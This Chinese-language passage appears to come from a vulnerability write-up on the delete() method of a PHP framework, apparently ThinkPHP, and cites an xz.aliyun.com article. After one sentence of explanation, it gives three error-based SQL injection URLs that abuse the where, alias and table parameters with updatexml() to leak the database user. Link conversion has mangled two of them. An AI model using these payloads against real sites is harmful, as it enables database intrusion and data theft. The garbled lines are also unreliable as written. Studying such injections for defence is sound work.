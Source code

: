而`delete()`方法的话同样，这里粗略举三个例子，`table`,`alias`,`where`，但使用`table`和`alias`的时候，同时还必须保证`where`不为空（详细原因后面会说）

```
where: http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Bwhere%5D=1%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)– `table: [http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e](http://www.0-sec.org/index.php?m=Home&c=Index&a=test&id%5Btable%5D=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e)),1)–&id[where]=1` 
```

![image](img/dce71b437d3dd0a4c182cc06cd9fff25.png)

## 参考链接

> https://xz.aliyun.com/t/2629#toc-1